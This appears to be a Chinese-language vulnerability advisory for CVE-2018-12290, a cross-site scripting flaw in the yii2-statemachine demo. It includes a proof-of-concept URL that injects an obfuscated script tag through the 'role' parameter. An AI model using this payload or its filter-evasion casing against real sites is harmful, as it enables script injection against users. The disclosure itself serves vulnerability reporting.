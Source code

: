 ### 漏洞简介  

|漏洞名称|上报日期|漏洞发现者|产品首页|软件链接|版本|CVE编号|
--------|--------|---------|--------|-------|----|------|
|yii2-statemachine v2.x.x存在XSS漏洞|2018-06-12|longer|[https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) | [https://github.com/ptheofan/yii2-statemachine-demo](https://github.com/ptheofan/yii2-statemachine-demo) |v2.x.x| [CVE-2018-12290](http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2018-12290)|  

#### 漏洞概述  

> 由于role参数过滤不严格，导致可以插入js代码造成跨站脚本攻击。如将role参数赋值为`guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>`，并进行get方式提交，可造成跨站脚本攻击。   

### POC实现代码如下：  

> exp代码如下：  

``` html
https://127.0.0.1/?role=guest'%22()%26%25<acx><ScRiPt%20>prompt(123555)</ScRiPt>
```
### POC截图效果如下：

